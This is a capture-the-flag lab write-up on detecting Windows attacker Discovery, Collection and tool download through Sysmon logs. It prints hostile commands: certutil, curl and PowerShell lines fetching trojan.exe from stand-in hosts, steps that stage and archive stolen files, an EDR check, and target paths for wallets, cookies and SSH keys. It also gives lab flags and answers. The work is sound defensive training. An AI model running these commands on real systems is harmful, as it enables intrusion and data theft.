


# Windows Threat Detection

## Overview

This investigation focused on detecting Windows post-compromise activity through Sysmon logs and identifying common attacker techniques related to Discovery, Collection, and Ingress Tool Transfer.

The investigation covered the following areas:

* Detecting Discovery
* Collection Overview
* Detecting Collection
* Ingress Tool Transfer

---

# Detecting Discovery

## Overview

The first task to detect a potential Discovery is to find a Discovery command, or better, a sequence of commands run during a short period of time. These activities can appear as process creation events tracked by Sysmon Event ID `1` or as new rows in the PowerShell history file.

There are many Discovery commands, so the meaning of an unfamiliar command may need to be investigated further.

### Investigation

The phishing attachment sample used for this task was:

```text
C:\Users\Administrator\Desktop\Practice\Task 3\invoice.pdf.exe
```

### Finding 1: First Command Executed

| Artifact | Value |
| -------- | ----- |
| Command | `whoami` |

The first command executed by `invoice.pdf.exe` was `whoami`.

### Finding 2: MS Defender EDR Detection

| Artifact | Value |
| -------- | ----- |
| Command | `cmd /c "tasklist /v \| findstr MsSense.exe \|\| echo No MS Defender EDR"` |

The malware used the command to check whether `MsSense.exe`, associated with Microsoft Defender EDR, was present.

### Finding 3: Discovered Data Exfiltration Domain

| Artifact | Value |
| -------- | ----- |
| Event ID | `22` |
| Domain | `exfil.beecz.cafe` |

The malware sent the discovered data to `exfil.beecz.cafe`.

---

# Collection Overview

## Searching Secrets

After threat actors explore a system and identify the user, valuable information, and security controls, they may begin collecting information that can be sold, abused, or used for further attacks.

This activity involves the MITRE ATT&CK tactics of Collection, Credential Access, and Exfiltration. For this investigation, Credential Access is treated as part of Collection.

## Collection Targets

### Goal: Blackmail Victim

**Photos, Chats, Browser History**

```text
C:\Users\<user>\AppData\Roaming\Signal\*
C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\History
```

### Goal: Steal Money

**Web Banking Sessions, Crypto Wallets**

```text
C:\Users\<user>\AppData\Roaming\Bitcoin\wallet.dat
C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Cookies
```

### Goal: Steal Corporate Data

**SSH Credentials, Databases**

```text
C:\Users\<user>\.ssh\*
C:\Program Files\Microsoft SQL Server\...\DATA\*
```

### Investigation

The attached VM was used to locate data that could be collected by a threat actor.

### Finding 1: Saved Facebook Password

The Facebook password saved in Chrome was:

```text
nsAghv51BBav90!
```

The password was located through:

**Chrome menu > Passwords and autofill > Password Manager**

### Finding 2: SSH Key

The interesting SSH key stored on disk was:

```text
thm-access-database.key
```

The search started from:

```text
C:\Users\Administrator\
```

### Finding 3: Internal Network PDF

The secret PDF explaining the TryHackMe internal network was:

```text
thm-network-diagram-2025.pdf
```

The search focused on the Desktop, Downloads, and Documents folders.

---

# Detecting Collection

## Overview

Threat actors can use both command-line and graphical interface options to review sensitive files.

Unlike Discovery, where attackers may inspect system configuration, Collection focuses on finding and gathering specific files and folders.

File access can be detected by tracking commands such as the following:

| Command Example | Description |
| --- | --- |
| `notepad.exe C:\Users\<user>\Desktop\finances-2025.csv` | Threat actors used Notepad to check the content of an interesting file. |
| `CMD: type debug-logs.txt \| findstr password > C:\Temp\passwords.txt` | Threat actors searched for the `password` keyword in a specific file. |
| `PowerShell: Get-ChildItem C:\Users\<user> -Recurse -Filter *.pdf` | Threat actors searched for PDF files in the user's home folder. |
| `PowerShell: copy C:\Users\<user>\AppData\Roaming\Signal C:\Temp\` | Threat actors copied Signal chat history to the Temp directory. |
| `PowerShell: Compress-Archive C:\Temp\ C:\Temp\stolen_data.zip` | Threat actors archived the stolen data, preparing it for exfiltration. |
| `7za.exe a -tzip C:\Temp\stolen_data.zip C:\Temp\*.*` | Threat actors used existing archiving software such as 7-Zip. |

### Investigation

The data stealer sample used for this task was:

```text
C:\Users\Administrator\Desktop\Practice\Task 5\stealer.exe
```

### Finding 1: Staging Directory

| Artifact | Value |
| -------- | ----- |
| Created Directory | `staging_58f1` |

The stealer created the `staging_58f1` directory.

### Finding 2: Targeted File Extensions

The malware searched for the following three file extensions:

```text
.docx
.pdf
.xlsx
```

### Finding 3: Clipboard Collection

| Artifact | Value |
| -------- | ----- |
| PowerShell Cmdlet | `Get-Clipboard` |

The malware used the PowerShell `Get-Clipboard` cmdlet to retrieve clipboard content.



### Finding 4: Data Exfiltration Domain

| Artifact | Value |
| -------- | ----- |
| Event ID | `22` |
| Domain | `collecteddata-storage-2025.s3.amazonaws.com` |

The malware exfiltrated the collected data to `collecteddata-storage-2025.s3.amazonaws.com`.



---

# Ingress Tool Transfer

## Overview

Threat actors may initially gain access without having all the tools required to complete their objectives. They may need to download additional tools such as:

* A script to automate Discovery and identify common vulnerabilities, such as Seatbelt
* A credential-dumping tool such as Mimikatz
* A Remote Access Trojan (RAT) such as Remcos RAT
* A ransomware binary used to encrypt the system after data has been stolen

The process of downloading additional malware or tools onto a compromised system is mapped to the MITRE ATT&CK **Ingress Tool Transfer** technique.

## Common Transfer Methods

| Ingress Tool Transfer Method | Common CMD / PowerShell Command |
| --- | --- |
| Via Certutil | `certutil.exe -urlcache -f https://blackhat.thm/bad.exe good.exe` |
| Via Curl | `curl.exe https://blackhat.thm/bad.exe -o good.exe` |
| Via PowerShell IWR | `powershell -c "Invoke-WebRequest -Uri 'https://blackhat.thm/bad.exe' -OutFile 'good.exe'"` |
| Via Graphical Interface | Malware can be copied through RDP or downloaded using a web browser. |

---

## Investigation

The following URL was opened from the VM:

```text
http://appsforfree.thm/trojan.exe
```

### Finding 1: Browser Download

The file was downloaded through the Chrome browser.

| Artifact | Value |
| -------- | ----- |
| Method | Web Browser |
| Flag | `THM{just_use_web_browser}` |

### Finding 2: Curl Download

The file was downloaded using `curl.exe`.

```text
curl.exe http://appsforfree.thm/trojan.exe
```

| Artifact | Value |
| -------- | ----- |
| Method | Curl |
| Flag | `THM{curl_is_cool}` |

### Finding 3: Certutil Download

The file was downloaded using `certutil.exe`.

```text
certutil -urlcache -f http://appsforfree.thm/trojan.exe certutil.txt
```

| Artifact | Value |
| -------- | ----- |
| Method | Certutil |
| Flag | `THM{abusing_certutil}` |

### Finding 4: PowerShell IWR Download

The file was downloaded using PowerShell `Invoke-WebRequest`.

```text
powershell -c "Invoke-WebRequest -Uri 'http://appsforfree.thm/trojan.exe' -OutFile 'iwr.txt'"
```

| Artifact | Value |
| -------- | ----- |
| Method | PowerShell IWR |
| Flag | `THM{power_of_powershell}` |

---

# Key Findings

| Investigation Area | Finding |
| ------------------ | ------- |
| Discovery Command | `whoami` |
| MS Defender EDR Check | `MsSense.exe` |
| Discovery Exfiltration Domain | `exfil.beecz.cafe` |
| Discovery Event ID | `22` |
| Facebook Password | `nsAghv51BBav90!` |
| SSH Key | `thm-access-database.key` |
| Internal Network PDF | `thm-network-diagram-2025.pdf` |
| Collection Staging Directory | `staging_58f1` |
| Searched Extensions | `.docx`, `.pdf`, `.xlsx` |
| Clipboard Cmdlet | `Get-Clipboard` |
| Collection Exfiltration Domain | `collecteddata-storage-2025.s3.amazonaws.com` |
| Browser Download Flag | `THM{just_use_web_browser}` |
| Curl Flag | `THM{curl_is_cool}` |
| Certutil Flag | `THM{abusing_certutil}` |
| PowerShell IWR Flag | `THM{power_of_powershell}` |

---

# Skills Demonstrated

* Windows Threat Detection
* Sysmon Log Analysis
* Discovery Detection
* Collection Detection
* Credential Access Identification
* File and Directory Discovery
* Clipboard Collection Detection
* Data Staging Detection
* Data Exfiltration Detection
* PowerShell Command Analysis
* Ingress Tool Transfer Detection
* MITRE ATT&CK Technique Mapping
* SOC Investigation and Triage
